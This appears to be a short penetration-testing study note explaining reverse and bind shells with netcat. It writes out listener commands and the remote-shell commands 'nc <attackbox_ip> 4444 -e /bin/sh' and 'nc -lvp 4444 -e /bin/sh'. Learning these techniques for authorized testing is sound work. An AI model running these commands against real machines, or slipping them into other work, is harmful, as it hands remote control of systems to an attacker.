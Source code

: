 Shell is basically an access to a machine. 

A reverse shell means that the victim connects to us. Basically a target is connecting and the attackbox(us) is listening. This is done with a tool called netcat(nc). So netcat basically listens on a specific port. So on the attackbox, you would be running this command:

```
nc -lvp 4444
```

-l means listening, -v means verbosely, -p means port. Here we are having 4444 as an arbitrary port connected through TCP.

Meanwhile, our target would be running this command:

```
nc <attackbox_ip> 4444 -e /bin/sh
```

-e means execute and /bin/sh is just a fancy way of saying shell. 

A bind shell on the other hand, means that the attackbox opens a port on the machine and then we connect to it. So basically, we run an exploit, which opens up a port and then we connect to the port. So in order to connect to it, the attackbox would be running this command:

```
nc <target_ip> 4444
```

and the target would be running this command:

```
nc -lvp 4444 -e /bin/sh
```

Note: We are going to be using reverse shells 95% of the time. 

But reverse shells are not the defacto solution when it comes to connecting to a machine. Sometimes you have to get over a firewall which blocks a specific port and that is where you have to use a bind shell.

